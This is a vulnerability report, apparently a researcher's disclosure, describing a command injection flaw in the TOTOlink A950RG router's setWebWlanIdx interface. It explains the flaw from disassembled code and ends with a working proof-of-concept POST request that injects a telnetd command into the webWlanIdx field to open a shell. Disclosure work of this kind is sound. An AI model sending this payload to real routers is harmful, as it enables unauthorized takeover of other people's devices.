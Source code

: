 # TARGET

- Device: TOTOlink A950RG
- Firmware Version: V4.1.2cu.5204_B20210112

# BUG TYPE

Command Execution Vulnerability

# Abstract

This document reports a command execution vulnerability found in the TOTOlink A950RG router, specifically in the firmware version V4.1.2cu.5204_B20210112. The vulnerability is located in the setWebWlanIdx interface within the /lib/cste_modules/wireless.so file, which mishandles the webWlanIdx parameter. Due to insufficient input validation and filtering on this user-controllable parameter, an attacker can inject system commands through a crafted malicious request. This vulnerability allows unauthorized attackers to execute arbitrary system commands on the target device, thereby gaining control over the affected router.

# Details

![Snipaste_2025-04-07_01-38-03](figures/Snipaste_2025-04-07_01-38-03.png)

Using IDA to examine the setWebWlanIdx function in wireless.so, the disassembled code reveals that the websGetVar function retrieves the webWlanIdx parameter from user input and stores it in the variable v5. The code then uses the sprintf function to construct a command string v7, which outputs the value of webWlanIdx to the /tmp/webWlanIdx file. Finally, the CsteSystem function executes this command and returns a configuration response via the websSetCfgResponse function.

The sprintf() function writes a formatted string into the v7 buffer, with the format string being "echo %s > /tmp/webWlanIdx". Here, %s is replaced with the value of v5, which is obtained from the user input through the websGetVar() function. The CsteSystem() function then executes the command string in v7, effectively calling the system to perform the command.

If an attacker can inject malicious commands into v5 (the user input parameter) via websGetVar(), these commands will be concatenated into the echo command string and executed. For example, if the injected command is a directive to start the Telnet service, when the system executes CsteSystem(v7), it will not only execute the expected command (writing the value to /tmp/webWlanIdx) but also execute the malicious injected command, potentially starting the Telnet service that was previously disabled, creating a security risk.

An attacker can exploit this command execution vulnerability by sending specially crafted API requests that inject malicious commands into the webWlanIdx parameter, potentially leading to complete control over the system.



# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/adm/notice.asp
Cookie: SESSION_ID=2:1743960903:2
Priority: u=0

{"topicurl":"setting/setWebWlanIdx","webWlanIdx":"; telnetd &# "}
```

### Attack Result

![Snipaste_2025-04-07_01-42-01](figures/Snipaste_2025-04-07_01-42-01.png)

![Snipaste_2025-04-06_02-45-09](figures/Snipaste_2025-04-06_02-45-09.png)

As shown in the above image, command injection was successful, and the target router supports Telnet service, allowing access to the device's shell via Telnet.

